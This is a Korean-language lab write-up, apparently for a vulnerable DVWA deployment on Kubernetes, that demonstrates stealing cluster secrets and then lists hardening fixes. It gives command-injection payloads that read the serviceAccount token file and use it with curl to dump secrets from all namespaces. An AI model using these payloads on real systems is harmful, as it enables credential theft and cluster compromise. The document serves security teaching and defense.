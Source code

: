# 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 secret을 탈취


# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```

![token](./imgs/attack1_token.png)

2. 모든 namespace의 secrets 탈취

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://kubernetes.default.svc.cluster.local/api/v1/secrets; }
```

![steal_secrets](./imgs/attack1_steal_secrets.png)

# 설정 해결

* [role](./dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장

# 참고자료
* https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes
